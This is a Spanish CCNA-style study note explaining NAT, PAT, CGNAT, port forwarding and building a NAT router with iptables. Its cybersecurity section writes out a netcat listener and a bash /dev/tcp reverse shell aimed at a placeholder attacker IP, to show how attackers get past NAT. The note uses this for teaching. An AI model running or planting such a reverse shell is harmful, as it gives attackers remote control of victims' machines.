



---
tags:
  - redes
  - ccna
  - nat
  - pat
  - cgnat
  - port-forwarding
  - iptables
  - ciberseguridad
folder: "📂06 - Capa de Aplicación y Servicios de Red"
aliases:
  - "NAT, PAT y CGNAT (Traducción de Direcciones de Red)"
  - "Sobrecarga de Puertos PAT y Carrier-Grade NAT"
date: 2026-09-07
---

> [!info] 🧭 Navegación
> ◀ [[06.2 - DHCP (Dynamic Host Configuration Protocol y Proceso DORA)]] · 🔼 [[00 - Índice Maestro de Redes]] · ▶ [[06.4 - Protocolos de Aplicación Comunes (HTTP-S, SSH, FTP, Correo y Gestión)]]

---

# 🔁 06.3 - NAT, PAT y CGNAT (Traducción de Direcciones de Red)

## 1. ¿Por Qué Nació NAT? El Salvavidas de IPv4

A principios de los años 90, el espacio de 4.300 millones de direcciones IPv4 se agotaba a un ritmo alarmante. Cada empresa, universidad y hogar que se conectaba a Internet requería bloques de direcciones públicas.

Para evitar el colapso antes de que IPv6 estuviese listo, el IETF introdujo **NAT** (*Network Address Translation* - RFC 1631 / RFC 3022). 

Su principio operativo es brillante: **permitir que redes enteras configuradas con direcciones privadas ([[03.1 - Protocolo IP y Direccionamiento IPv4|RFC 1918]]) compartan una o muy pocas direcciones IP públicas para navegar por Internet**, modificando las cabeceras de los paquetes en tiempo real al cruzar el router perimetral.

> [!abstract] 🏠 Analogía: La Empresa y la Centralita Telefónica
> Imagina una gran empresa con 500 empleados:
> - Cada empleado tiene un teléfono en su mesa con una extensión privada interna: `Ext. 101`, `Ext. 102`, etc. Nadie desde la calle puede marcar directamente a la `Ext. 101`.
> - La empresa tiene un único número público oficial publicado en las Páginas Amarillas: `+34 91 555 0000`.
> - Cuando el empleado de la `Ext. 101` llama a un cliente externo, la centralita cambia el número y el cliente ve que le llaman desde el `+34 91 555 0000`.
> - La telefonista (el router NAT) apunta en su libreta: *"Si devuelven la llamada a esta conversación, pásala a la Extensión 101"*.

---

## 2. Tipos de Traducción: NAT Estático, Dinámico y PAT



### 1. NAT Estático (*Static NAT*)
Mapeo permanente uno a uno entre una dirección IP privada y una IP pública fija.
- Se utiliza cuando tienes un servidor dentro de tu red local (ej. un servidor de base de datos en `192.168.1.100`) que debe ser accesible desde cualquier lugar de Internet mediante una IP pública fija propia (`203.0.113.10`).

### 2. NAT Dinámico (*Dynamic NAT*)
Mapeo muchos a muchos. El router dispone de un grupo (*Pool*) de direcciones públicas contratadas (ej. de `203.0.113.10` a `203.0.113.15`):
- Cuando un equipo interno quiere salir a Internet, el router le asigna temporalmente la primera IP pública libre del pool.
- Si hay 6 IPs públicas y un séptimo ordenador intenta navegar, **su conexión es rechazada** hasta que alguien libere una IP. Por esta ineficiencia, apenas se utiliza.

---

## 3. PAT (Port Address Translation / NAT Overload): La Joya de la Corona

**PAT** (también conocido como *NAT con Sobrecarga* o *NAPT*) es la tecnología que hace posible que en tu casa puedan estar conectados 12 teléfonos móviles, 3 consolas, 2 SmartTVs y 4 portátiles navegando simultáneamente **utilizando la única dirección IP pública que te entrega tu proveedor de Internet**.

### ¿Cómo funciona PAT por debajo?
El router no solo modifica la dirección IP de Capa 3; **modifica también el Número de Puerto de origen de la Capa de Transporte (Capa 4)** y mantiene una tabla de seguimiento en memoria llamada **Tabla de Traducción NAT**:



Dado que los números de puerto en TCP/UDP tienen 16 bits (hasta 65.535 puertos disponibles), una sola dirección IP pública puede dar servicio teórico a **más de 60.000 conexiones concurrentes simultáneas**.

---

## 4. Port Forwarding (Reenvío de Puertos / DNAT)

Por defecto, PAT solo funciona si la conexión es **iniciada desde adentro hacia afuera**. Si alguien desde Internet intenta conectar a tu IP pública `80.25.10.5:80`, el router mira su tabla NAT, no encuentra ninguna conversación previa asociada a esa petición y **descarta el paquete inmediatamente**.

El **Port Forwarding** (o DNAT - *Destination NAT*) crea una regla estática permanente en el router:
- *"Todo paquete entrante que llegue a mi IP pública por el puerto TCP 8080, reenvíalo automáticamente a la IP privada `192.168.1.50` en el puerto `80`"*.
- Es lo que configuras cuando quieres montar un servidor web casero, un servidor de Minecraft o acceder a tus cámaras de seguridad desde fuera de casa.

---

## 5. CGNAT (Carrier-Grade NAT): La Red Privada de tu Operador

Con el agotamiento total de IPv4, muchos proveedores de fibra óptica y redes móviles 4G/5G ya no pueden entregar una dirección IP pública a cada cliente. En su lugar, aplican **CGNAT (RFC 6598)**:



### El Fenómeno del Doble NAT (*Double NAT*)
Bajo CGNAT, sufres dos traducciones consecutivas:
1. Tu router de casa traduce de `192.168.1.x` al rango reservado de operadora **`100.64.0.0/10`** (RFC 6598: `100.64.0.0` a `100.127.255.255`).
2. El súper-router de tu operador traduce de `100.64.x.x` a una única IP pública compartida con cientos de vecinos de tu barrio.

> [!warning] 🚨 ¿Cómo saber si estás bajo CGNAT y qué problemas causa?
> - **Comprobación**: Entra a tu router y mira la IP asignada en la interfaz WAN. Si empieza por `100.64.x.x` a `100.127.x.x` mientras una web como `icanhazip.com` te dice que tu IP es otra distinta, **estás bajo CGNAT**.
> - **Consecuencias**: **El Port Forwarding queda completamente roto**. No puedes abrir puertos para servidores locales, tus conexiones VPN entrantes fallarán y en videoconsolas obtendrás el temido error de **NAT Estricta / NAT Tipo 3**, impidiendo conectar partidas P2P con otros jugadores. *(Solución: Llamar a tu operador y solicitar salir de CGNAT para obtener una IP pública dinámica estándar)*.

---

## 6. Perspectiva de Ciberseguridad: NAT como Barrera y Reverse Shells

> [!warning] 🚨 NAT No es un Firewall, pero Actúa como Escudo Involuntario
> Debido a que PAT descarta cualquier paquete entrante que no coincida con una sesión abierta previamente en su tabla, **ningún atacante en Internet puede escanear o enviar exploits directamente a tu ordenador doméstico**.
> 
> **Cómo se salta un Pentester la barrera de NAT: La Reverse Shell**
> Como el atacante no puede entrar de afuera hacia adentro (*Bind Shell*), recurre a la ingeniería social o exploits web para forzar a la máquina víctima a **iniciar la conexión hacia afuera**:
> ```bash
> # El atacante escucha en un servidor público con Netcat:
> nc -lvnp 443
> 
> # La víctima ejecuta una Reverse Shell que conecta de adentro hacia afuera:
> bash -i >& /dev/tcp/IP_PUBLICA_ATACANTE/443 0>&1
> ```
> Dado que la conexión nació dentro de la red privada, **el router PAT la traduce felizmente y permite la salida sin sospechar**, entregándole al atacante una consola con acceso total al interior de la empresa.

---

## 7. Práctica en Terminal Linux: Creación de un Router NAT con `iptables`

Si tienes una máquina Linux con dos tarjetas de red (`eth0` hacia Internet y `eth1` hacia tu red interna), puedes convertirla en un router PAT en una sola línea con `iptables`:

```bash
# 1. Habilitar el reenvío de paquetes en el kernel
sudo sysctl -w net.ipv4.ip_forward=1

# 2. Configurar la regla de sobrecarga PAT (Masquerade) en la interfaz de salida
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# 3. Configurar una regla de Port Forwarding (DNAT): Redirigir el puerto 8080 entrante hacia un PC interno
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8080 -j DNAT --to-destination 192.168.1.100:80

# 4. Inspeccionar la tabla de estados de traducción NAT en tiempo real con conntrack
sudo apt install conntrack -y
sudo conntrack -L -p tcp
```

> [!brain] 🔬 Salida de `conntrack -L`:
> ```text
> tcp 6 431999 ESTABLISHED src=192.168.1.15 dst=142.250.200.14 sport=54120 dport=443 \
>     src=142.250.200.14 dst=80.25.10.5 sport=443 dport=61001 [ASSURED] mark=0 use=1
> ```
> El kernel de Linux almacena la correlación bidireccional exacta: la petición original con su IP privada interna y la respuesta mapeada contra la IP pública y el puerto traducido (`dport=61001`).

---

## 8. Resumen y Siguiente Paso

En esta nota hemos aprendido:
- Por qué NAT evitó la muerte prematura de IPv4.
- La diferencia entre NAT Estático, Dinámico y la sobrecarga de puertos **PAT**.
- Cómo funciona la tabla de traducción NAT y el reenvío de puertos (*Port Forwarding*).
- Los problemas del doble NAT bajo **CGNAT** (`100.64.0.0/10`).
- El uso de *Reverse Shells* para evadir la protección unidireccional de NAT.

En la siguiente nota ([[06.4 - Protocolos de Aplicación Comunes (HTTP-S, SSH, FTP, Correo y Gestión)]]), analizaremos los protocolos de servicio que usamos a diario: la web con **HTTP/HTTPS**, administración remota con **SSH vs Telnet**, transferencia con **FTP/SFTP**, correo con **SMTP/IMAP** y monitorización con **SNMP**.
